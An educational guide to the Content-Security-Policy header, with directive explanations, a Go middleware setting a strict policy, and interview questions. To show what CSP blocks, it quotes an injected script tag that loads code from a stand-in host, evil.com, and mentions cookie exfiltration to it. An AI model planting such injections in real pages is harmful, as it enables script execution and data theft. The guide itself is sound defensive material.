

#API
---
---

# Content-Security-Policy (CSP) Header

## Summary
**Content-Security-Policy (CSP)** is an HTTP response header that significantly reduces the risk of **Cross-Site Scripting (XSS)**, data injection, and other code execution attacks. It works by restricting the sources from which a browser is allowed to load resources (scripts, styles, images, fonts).

By defining a strict "Allowlist" of trusted sources, CSP ensures that even if an attacker successfully injects a `<script src="http://evil.com/hack.js">` tag into your page, the browser will refuse to load it because `evil.com` is not in the policy.

## Detailed Explanation

### 1. Key Directives
*   **`default-src`**: The fallback rule for all resource types if a specific directive is not defined. Best practice: `'none'` or `'self'`.
*   **`script-src`**: Controls which scripts can execute. Critical for XSS prevention.
    *   `'self'`: Only scripts from the same origin.
    *   `'unsafe-inline'`: Allows `<script>...</script>`. **Avoid this** as it enables XSS.
    *   `https://apis.google.com`: Allow specific external domain.
*   **`style-src`**: Controls CSS stylesheets.
*   **`img-src`**: Controls image sources (prevents tracking pixels from unauthorized domains).
*   **`frame-ancestors`**: Controls who can embed this page (Clickjacking protection).

### 2. Browser Enforcement Flow


### 3. Go Implementation
Defining a strict CSP middleware.

```go
package main

import (
	"net/http"
)

func CSPMiddleware(next http.Handler) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		// Strict Policy:
		// 1. default-src 'self': Only allow local resources by default
		// 2. script-src 'self': No external JS, no inline scripts
		// 3. object-src 'none': No Flash/Plugins
		// 4. frame-ancestors 'none': No Clickjacking
		policy := "default-src 'self'; script-src 'self'; object-src 'none'; frame-ancestors 'none';"
		
		w.Header().Set("Content-Security-Policy", policy)
		next.ServeHTTP(w, r)
	})
}

func main() {
	http.ListenAndServe(":8080", CSPMiddleware(http.DefaultServeMux))
}
```

### 4. Reporting Violations
You can use `Content-Security-Policy-Report-Only` to test policies without breaking the site. Browsers will send JSON violation reports to the URL specified in `report-uri` or `report-to`.

---

## Interview Questions

### 1. What makes `script-src 'unsafe-inline'` dangerous?
It allows the execution of inline scripts (e.g., `<script>var x=1;</script>` or `<button onclick="...">`). This defeats the primary purpose of CSP because XSS attacks almost always rely on injecting inline scripts. If you must use inline scripts, use a **Nonce** or **Hash** instead of `'unsafe-inline'`.

### 2. How does CSP mitigate Data Exfiltration?
By restricting `connect-src` (which controls Fetch, XHR, and WebSockets), CSP prevents malicious scripts from sending data (like stolen cookies) to an attacker's server (e.g., `evil.com`). If `evil.com` is not in the `connect-src` whitelist, the browser blocks the transmission.

### 3. What is the difference between `Content-Security-Policy` and `Content-Security-Policy-Report-Only`?
*   **Enforcing Mode**: The browser blocks resources that violate the policy.
*   **Report-Only Mode**: The browser **allows** the resources to load but sends a violation report to the backend. This is used for debugging and testing new policies in production without risking downtime.

### 4. If `default-src 'none'` is set, do I need to set `img-src`?
Yes, if you want to load images. `default-src` applies to any directive that is *not* explicitly specified. If you set `default-src 'none'`, all resource types (images, fonts, scripts) are blocked unless you override them (e.g., `img-src 'self'`).
